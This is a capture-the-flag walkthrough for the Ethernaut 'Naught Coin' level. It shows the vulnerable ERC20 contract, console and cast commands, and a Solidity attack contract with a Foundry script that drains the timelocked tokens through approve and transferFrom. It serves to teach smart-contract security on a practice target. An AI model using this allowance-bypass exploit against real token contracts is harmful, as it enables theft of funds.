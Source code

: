 # Level 15 - Naught Coin ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/15" %}

### Level Setup

{% hint style="info" %}
NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

&#x20; Things that might help

* The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
* The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/NaughtCoin.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```
{% endcode %}

### Exploit

While the tokens can't be transferred directly by the owner, the owner can allow a different address to transfer the tokens for them.

1. Deploy the Exploit contract.
2. In the browser console, approve the newly deployed exploit contract address.

```javascript
myBalance = await contract.balanceOf("0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266")
await contract.approve("0x76d05F58D14c0838EC630C8140eDC5aB7CD159Dc", myBalance)
```

3. Invoke the attack to transfer the tokens.

```bash
cast send <DEPLOYED_EXPLOIT_CONTRACT_ADDRESS> "attack()" \
--rpc-url ${ANVIL_RPC_URL} --private-key ${ANVIL_PRIVATE_KEY}
```

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-15

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-15

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/b927b7aed65df997f7e204690bb4033773b72d04/src/Level15.sol" %}

{% code title="src/Level15.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";

// ================================================================
// │                     LEVEL 15 - NAUGHT COIN                   │
// ================================================================
interface ERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function allowance(address owner, address spender) external view returns (uint256);
}

contract AttackContract {
    address targetContractAddress;

    constructor(address _targetContractAddress) {
        targetContractAddress = _targetContractAddress;
    }

    function attack() public {
        uint256 allowance = ERC20(targetContractAddress).allowance(msg.sender, address(this));

        // Transfer all tokens to this contract address
        ERC20(targetContractAddress).transferFrom(msg.sender, address(this), allowance);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/b927b7aed65df997f7e204690bb4033773b72d04/script/Level15.s.sol" %}

{% code title="script/Level15.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {AttackContract} from "../src/Level15.sol";

// ================================================================
// │                     LEVEL 15 - NAUGHT COIN                   │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        new AttackContract(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that transfer is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.
{% endhint %}

### Notes

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_15_Naught-Coin.md" %}
